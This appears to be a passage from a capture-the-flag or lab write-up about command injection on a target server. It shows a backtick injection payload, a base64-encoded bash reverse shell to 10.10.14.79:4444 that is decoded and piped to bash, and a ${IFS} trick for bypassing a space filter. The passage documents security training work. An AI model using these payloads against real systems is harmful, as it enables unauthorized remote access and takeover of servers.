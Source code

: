 - After some testing and online searching, I found a great guide by <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">HackTricks</a> that help 
escaping the sanitizer and execute command on the target server:

```
;`<payload>`
```

![img_6.png](img/img_6.png)

- Now that we have RCE confirmed, all we need to do is upload a reverse shell. The easiest way to do this will be to base64 encode a shell and tell the 
target to decode it and then run it. Should look like this:

```
bash -i >& /dev/tcp/10.10.14.79/4444 0>&1 = YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDQ0IDA+JjE=

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDQ0IDA+JjE=' | base64 -d | bash
```

- URL-encode it and send the payload yields an error due to the restriction of space:

![img_7.png](img/img_7.png)

- To bypass this we can do a super simple trick which is to use ${IFS} in place of a space (IFS = Internal Field Separator).

```
;`echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDQ0IDA+JjE='${IFS}|base64${IFS}-d${IFS}|${IFS}bash`
```
